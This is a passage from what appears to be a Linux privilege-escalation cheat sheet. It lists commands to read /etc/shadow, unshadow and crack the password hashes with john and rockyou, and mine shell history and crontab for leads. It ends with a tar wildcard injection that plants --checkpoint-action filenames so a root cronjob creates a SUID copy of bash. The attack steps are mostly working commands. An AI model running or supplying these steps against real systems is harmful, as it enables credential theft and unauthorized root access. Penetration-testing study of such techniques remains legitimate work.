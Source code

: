 Check if you can access /etc/shadow, /etc/sudoers, /etc/groups, ...
```
cat /etc/shadow
```

Copy /etc/passwd and /etc/shadow to files with hashes and use unshadow:
```
unshadow passwd shadow > unshadow
```

Then, use john to crack it
```
john unshadow --wordlist=/usr/share/wordlist/rockyou.txt
```

Check your history, maybe you can find some nice commands
```
history
```

or in user home directory
```
cat .bash_history
```

#### CronJobs

Check your cronjobs
```
cat /etc/crontab
```

Check if you can overwrite the script that is running via cronjob.

##### Wildcards (normal with tar)

We can do injection with that
Now check your $PATH and the let's create some malicious file:

```shell
echo "cp /bin/bash /tmp/bashroot; chmod +s /tmp/bashroot" > runme.sh
```

Change its permission to execution:
```
chmod +x runme.sh
```

Now, tar specific commands:

```
touch /full/path/to/--checkpoint=1
```

```
touch /full/path/to/--checkpoint-action=exec=sh\runme.sh
```

Explanation:
The first command means that you display progress messages every 1 record.
And then, when you reach this checkpoint, run this command.
